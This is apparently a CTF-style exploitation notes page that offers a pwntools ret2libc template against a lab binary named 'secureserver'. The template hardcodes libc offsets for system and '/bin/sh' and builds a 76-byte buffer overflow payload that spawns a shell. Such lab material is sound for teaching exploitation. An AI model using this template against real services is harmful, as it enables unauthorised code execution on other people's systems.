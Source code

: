 ### Exploit Development

When it comes to building an exploit for `ret2libc`, this is an excellent template to use.

exploit.py:

{% code lineNumbers="true" %}
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc_base = 0xf7d81000
system = libc_base + 0x48150
binsh = libc_base + 0x1bd0f5

# Print out our addresses
info('libc_base: %#x', libc_base)
info('system: %#x', system)
info('binsh: %#x', binsh)

# How many bytes to the instruction pointer (EIP)?
padding = 76

payload = flat(
    asm('nop') * padding,  # Padding up to EIP
    system,  # Address of system function in libc
    0x0,  # Return pointer -- this can be garbage, we have to do this because we're attacking x86
    binsh  # Address of /bin/sh in libc
)

# Write payload to file
write('payload', payload)

```
